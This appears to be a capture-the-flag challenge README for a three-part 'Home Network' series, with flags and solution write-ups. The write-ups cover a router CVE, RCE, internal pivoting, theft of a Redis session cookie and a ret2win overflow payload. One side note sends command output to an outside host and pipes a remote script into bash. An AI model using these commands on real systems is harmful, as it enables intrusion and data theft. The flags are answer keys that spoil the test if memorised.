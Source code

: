 # Home Network

## Challenge Host
http://HOST:PORT

## Name: Home Network :: 001
### Category: Home Network
### Description:
```
In the aftermath of the nuclear war that devastated the world, remnants of the pre-war technology still exist in the Commonwealth. One such remnant is a forgotten home network located in the ruins of a house near Vault 111. This home network was once owned by a skilled hacker who sought to uncover the secrets of Vault-Tec Corporation and their experiments within the vault.

As a wasteland scavenger with hacking skills, you stumble upon the remnants of this network and discover that it contains valuable information about Vault 111 and its inhabitants. Your challenge is to breach the network's security defenses and extract the hidden data.

Due to the old age, not all endpoints and features work properly, but we trust in your abilities anyway!

http://HOST:PORT

Author: [@Legoclones](https://twitter.com/legoclones)
```

### Value: 75

### Max Attempts: 0

### Flag:
`flag{hope_youre_comfortable_running_cmds_cuz_youll_Be_doing_it_a_lot}`

### Solution:
The challenge is to hack into a home network, running a GL-E750 device as the home router and only publicly exposed container. To get the first flag, the user must be able to log into the admin portal. The GL.iNET firmware version number running is 3.215, which has a public CVE that allows any user to send a request to `/cgi-bin/api/router/mesh/status` to get the LAN password. If the proper POST request is sent, the LAN password will be revealed as `th1s_1s_my_s3cur3_p4$$w0rd`, which is the same as the admin password. This is automated in `scanner.py`. 

Once the user has admin access, they need to leverage that to get RCE on the underlying file system. There are two options here - there's a previously discovered RCE vulnerability that works (see `solve/rce.py`), or the user can find their own RCE vulnerability. The flag is found in `/flag.txt`. Note that both `solve/rce.py` and `solve/scanner.py` come from publicly-available PoCs, but require some minor changes to them.




## Name: Home Network :: 002
### Category: Home Network
### Description:
```
Great job on compromising the entrypoint! But I've heard of the hacker who owned this network, and I'm sure there's more inside the network. Using the machine you've broken into, pivot into the network and see what's on there.

Author: [@Legoclones](https://twitter.com/legoclones)
```

### Value: ??

### Max Attempts: 0

### Flag:
`flag{redis_from_a_distance_ftw}`

### Solution:
Now that the participant has RCE on the IoT/entrypoint device, they must scan and exploit the rest of the internal network. Standalone executables are probably the best way to carry out attacks. These pre-compiled executables (functioning as tools) must be imported through something like `curl`, which already exists on the box, and stored in a tmp directory.

A port & ping scan of the Docker network will reveal 2 other boxes - one hosting a custom webserver and Redis db, and the other a MySQL database. The MySQL database is not relevant for this problem, instead the webserver must be compromised. The first step is to gain admin access to the note-saving website by stealing an admin session cookie from Redis. Unlike the default config, the Redis database requires authentication. However, a `backup.zip` file exists with the source code/binary of the API, in which Redis credentials can be found. This backup file is also located in `backup` to make it easier for participants to find it.

Once the `backup.zip` file is found, Redis credentials can be used to authenticate to the redis server, and 40 different session cookies can be found. Searching through all of them will reveal one admin session cookie, `ed3f2d85696656f4ea64a0f1d5ceb399`. Once this session cookie is used, an extra HTTP header will appear called `X-Flag` with the flag inside. 

```
Step-by-step from inside IoT box:
- curl http://<IP>/backup.zip -o /tmp/backup.zip
- unzip /tmp/backup.zip
- printf 'auth user password\nkeys *\n' | netcat 172.22.0.4 6379
- printf 'auth user password\nget session_ed3f2d85696656f4ea64a0f1d5ceb399\n' | netcat 172.22.0.4 6379
- curl http://172.22.0.4/api/get -H 'Cookie: session=ed3f2d85696656f4ea64a0f1d5ceb399' --head | grep flag
```

As a side note, I ran commands & obtained output from the blind RCE using this method:
- Run `sudo tail -f /var/log/nginx/access.log | grep lego`
- Run `echo 'curl https://justinapplegate.me/lego?$(command here|base64)' > /var/www/html/c`
- Run the `solve/rce.py` script with the command `curl https://justinapplegate.me/c|bash`

This will allow you to send however-long commands you want in the `c` file, and then see the output in the query string of incoming logs. It's not the most efficient approach, but it works!



## Name: Home Network :: 003
### Category: Home Network
### Description:
```
Nice job on the find! Can you find the credentials to break into the database it's using?

Author: [@Legoclones](https://twitter.com/legoclones)
```

### Value: ??

### Max Attempts: 0

### Flag:
`flag{I_hope_the_web_pwn_was_fun_XD}`

### Solution:
The last flag is hidden in the MySQL database with unguessable credentials. The only way to get those credentials is to read `/creds.txt`. There is a function inside `api.c` which will print it out for "debugging" purposes, but that function is never called. Instead, the unfinished `/create` endpoint called `create_note`, which has a buffer overflow. A simple `ret2win` (or `ret2debug`) can be used to return the credentials and access the flag. 

Since Python doesn't exist on the IoT box (and can't be installed), a `curl` command or C binary will have to suffice for delivering the exploit. It's a simple `ret2win`, where you have to find the padding (280 bytes) for the overflow, then the address for a `ret` gadget (to ensure no segfault for printf), then the address for `debug()`. This will return the credentials in the HTTP response.

A proof of concept using `curl` is below:

```bash
printf 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x16\x10@\x00\x00\x00\x00\x00[\x16@\x00\x00\x00\x00\x00' > /tmp/out
curl http://<IP>/api/create -H 'Cookie: session=ed3f2d85696656f4ea64a0f1d5ceb399' --data-binary @/tmp/out
```

The original Python pwntools solution I used (which doesn't work in this infrastructure) is located at `solve/solve.py`.